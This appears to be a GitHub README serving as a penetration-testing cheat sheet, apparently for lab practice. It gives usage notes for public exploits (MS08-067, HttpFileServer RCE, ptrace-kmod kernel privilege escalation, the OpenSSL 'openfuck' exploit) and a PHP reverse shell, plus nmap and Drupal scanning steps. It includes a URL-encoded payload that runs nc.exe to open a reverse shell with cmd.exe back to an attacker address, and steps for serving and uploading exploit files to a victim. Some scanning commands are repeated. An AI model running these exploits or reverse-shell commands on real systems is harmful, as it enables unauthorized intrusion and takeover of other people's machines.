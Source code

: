 # Exploits/Tools/Cheatsheets
 

### Windows Exploits
<details><summary>MS08-067 Python Remote Exploit</summary>
<p>

(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>

<details><summary>MS14-058 HttpFileServer 2.3.x RCE</summary>
<p>

(https://www.exploit-db.com/exploits/37064)
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>

### Linux Exploits
<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>

(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>

(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.
Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>

(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>

(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>

(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>



